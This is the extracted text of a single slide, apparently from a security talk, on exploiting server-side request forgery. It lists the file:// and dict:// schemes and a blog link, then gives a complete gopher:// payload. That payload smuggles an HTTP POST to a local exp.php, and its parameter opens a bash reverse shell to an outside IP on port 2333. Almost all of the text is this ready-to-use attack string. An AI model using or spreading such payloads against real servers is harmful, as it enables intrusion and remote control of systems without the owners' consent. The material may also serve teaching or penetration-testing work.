

# Exploting
File://
dict://
https://blog.chaitin.cn/gopher-attack-surfaces/
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null